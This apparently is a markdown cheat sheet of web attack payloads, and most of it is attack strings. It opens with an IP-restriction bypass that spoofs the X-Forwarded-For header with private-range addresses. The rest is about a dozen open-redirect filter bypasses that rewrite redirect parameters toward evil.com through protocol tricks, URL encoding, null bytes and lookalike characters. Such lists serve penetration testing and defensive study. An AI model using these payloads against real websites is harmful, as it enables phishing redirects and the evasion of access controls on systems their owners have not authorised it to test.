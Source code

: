 # IP RESTRICTION BYPASS
"X-Forwarded-For" http header with value of needed ip address<br>
IP address spaces reserved for private networks<br>
10.0.0.0        -   10.255.255.255  (10/8 prefix)<br>
172.16.0.0      -   172.31.255.255  (172.16/12 prefix)<br>
192.168.0.0     -   192.168.255.255 (192.168/16 prefix)<br>
# OPEN REDIRECT
Simply try to change the domain<br>
Example: ?redirect=https://example.com --> ?redirect=https://evil.com<br>
Bypass the filter when protocol is blacklisted using //<br>
Example: ?redirect=https://example.com --> ?redirect=//evil.com<br>
Bypass the filter when double slash is blacklisted using \\<br>
Example: ?redirect=https://example.com --> ?redirect=\evil.com<br>
Bypass the filter when double slash is blacklisted using http: or https:<br>
Example: ?redirect=https://example.com --> ?redirect=https:example.com<br>
Bypass the filter using %40<br>
Example: ?redirect=example.com --> ?redirect=example.com%40evil.com<br>
Bypass the filter if it only checks for domain name<br>
Example: ?redirect=example.com --> ?redirect=example.comevil.com<br>
Bypass the filter if it only checks for domain name using a dot %2e<br>
Example: ?redirect=example.com --> ?redirect=example.com%2eevil.com<br>
Bypass the filter if it only checks for domain name using a query/question mark ?<br>
Example: ?redirect=example.com --> ?redirect=evil.com?example.com<br>
Bypass the filter if it only checks for domain name using a hash %23<br>
Example: ?redirect=example.com --> ?redirect=evil.com%23example.com<br>
Bypass the filter using a ° symbol
Example: ?redirect=example.com --> ?redirect=example.com/°evil.com
Bypass the filter using a url encoded Chinese dot %E3%80%82
Example: ?redirect=example.com --> ?redirect=evil.com%E3%80%82%23example.com
Bypass the filter if it only allows you to control the path using a nullbyte %0d or %0a
Example: ?redirect=/ --> ?redirect=/%0d/evil.com

